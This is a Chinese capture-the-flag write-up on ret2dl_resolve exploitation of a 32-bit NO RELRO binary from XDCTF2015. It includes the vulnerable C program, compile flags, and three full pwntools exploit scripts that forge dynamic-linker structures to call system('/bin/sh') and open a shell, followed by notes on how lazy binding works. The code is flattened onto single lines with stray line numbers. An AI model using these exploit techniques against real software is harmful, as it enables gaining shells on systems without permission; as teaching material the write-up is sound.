

参考链接：https://www.jianshu.com/p/0d45e2025d97
32位 NO RELRO 解题场景：ubuntu18.04（注：ubuntu20.04 gcc版本过高，存在一些保护机制）
1、题目C代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 #include <stdio.h> #include <string.h> #include <unistd.h> void vuln () char buf[100 ]; setbuf(stdin , buf); read(0 , buf, 256 ); } int main () char buf[100 ] = "Welcome to XDCTF2015~!\n" ; setbuf(stdout , buf); write(1 , buf, strlen (buf)); vuln(); return 0 ; }
编译指令：
1 gcc -fno-stack-protector -m32 -z norelro -no-pie main.c -o main_norelro_32
2、解题exp 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 from pwn import *context.terminal = ["tmux" ,"splitw" ,"-h" ] context.arch="i386" p = process("./main_no_relro_32" ) rop = ROP("./main_no_relro_32" ) elf = ELF("./main_no_relro_32" ) p.recvuntil('Welcome to XDCTF2015~!\n' ) offset = 112 rop.raw(offset*'a' ) rop.read(0 ,0x08049804 +4 ,4 ) dynstr = elf.get_section_by_name('.dynstr' ).data() dynstr = dynstr.replace("read" ,"system" ) rop.read(0 ,0x080498E0 ,len ((dynstr))) rop.read(0 ,0x080498E0 +0x100 ,len ("/bin/sh\x00" )) rop.raw(0x08048376 ) rop.raw(0xdeadbeef ) rop.raw(0x080498E0 +0x100 ) assert (len (rop.chain())<=256 )rop.raw("a" *(256 -len (rop.chain()))) p.send(rop.chain()) p.send(p32(0x080498E0 )) p.send(dynstr) p.send("/bin/sh\x00" ) p.interactive() from pwn import * elf = ELF ('./pwn200' ) io = process ('./ydm' ) pppr_addr = 0x08048619 pop_ebp_addr =0x0804861b leave_ret_addr =0x08048458 write_plt = elf.plt ['write' ] write_got = elf.got ['write' ] read_plt = elf.plt ['read' ] plt_0 = elf.get_section_by_name('.plt' ).header.sh_addr rel_plt = elf.get_section_by_name('.rel.plt' ).header.sh_addr dynsym = elf.get_section_by_name('.dynsym' ).header.sh_addr dynstr = elf.get_section_by_name('.dynstr' ).header.sh_addr bss_addr = elf.get_section_by_name('.bss' ).header.sh_addr + 0x500 def stack_pivot (): payload_1 = b'A' *(0x6c + 4 ) payload_1 += p32(read_plt) payload_1 += p32(pppr_addr) payload_1 += p32(0 ) + p32(bss_addr) + p32(100 ) payload_1 += p32(pop_ebp_addr) payload_1 += p32(bss_addr) payload_1 += p32(leave_ret_addr) io.send(payload_1) def pwn (): reloc_index = bss_addr + 28 - rel_plt r_sym = (bss_addr + 40 - dynsym )/0x10 r_type = 0x7 r_info = (r_sym << 8 ) + (r_type & 0xff ) fake_reloc = p32(write_got) + p32( r_info) st_name = bss_addr + 56 - dynstr st_bind = 0x1 st_type = 0x2 st_info = (st_bind << 4 ) + (st_type & 0xf ) fake_sym = p32(st_name)+p32(0 )+p32(0 )+p32(st_info) payload_7 = b'AAAA' payload_7 += p32(plt_0) payload_7 += p32(reloc_index ) payload_7 += b'AAAA' payload_7 += p32(bss_addr +80 ) payload_7 += b'AAAAAAAA' payload_7 += fake_reloc payload_7 += b'AAAA' payload_7 += fake_sym payload_7 += "system\x00" payload_7 += b'A' * (80 - len ( payload_7)) payload_7 += "/bin/sh\x00" payload_7 += b'A' * (100 -len (payload_7)) io.sendline(payload_7) io.interactive() if __name__ =='__main__' : stack_pivot () pwn()
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 from pwn import *context(arch="i386" ,os="linux" ,log_level="debug" ) io = process("./ydm1804" ) elf = ELF("./ydm1804" ) dynstr = elf.get_section_by_name('.dynstr' ).data() dynstr = dynstr.replace("read" ,"system" ) ppp_addr = 0x08048629 payload = 112 *"a" payload += p32(0x08048370 ) payload += p32(0x08048629 ) + p32(0x0 ) + p32(0x08049804 +4 ) + p32(0x4 ) payload += p32(0x08048370 ) payload += p32(0x08048629 ) + p32(0 ) + p32(0x080498E0 ) + p32(len (dynstr)) payload += p32(0x08048370 ) payload += p32(0x08048629 ) + p32(0 ) + p32(0x080498E0 + 0x100 ) + p32(len ("/bin/sh\x00" )) payload += p32(0x08048376 ) payload += p32(0xdeadbeef ) + p32(0x080498E0 + 0x100 ) print (len (payload))io.send(payload) io.send(p32(0x080498E0 )) io.send(dynstr) io.send("/bin/sh\x00" ) io.interactive()
3、知识点： 动态链接的过程要了解
（1）第一次调用libc中的函数时，整个过程大致以下几步

参考链接： ret2dl_resolve解析 - 安全客，安全资讯平台
plt第二行压入偏移值 reloc_arg
got + 4 存入link_map地址
got + 8 存储 _dl_runtime_resolve 函数的地址
调用 _dl_runtime_resolve 函数的过程中会执行 _dl_fixup 函数，该函数会将偏移值与link_map作为参数，并且执行该函数时会获取 dynstr表地址、dynsym表地址、rel.plt表地址……(ctf竞赛权威指南P214)
之后在libc中查找函数是通过dynstr表中的字符串比对来查找函数的
（2）第二次及第二次以后：
Partial RELRO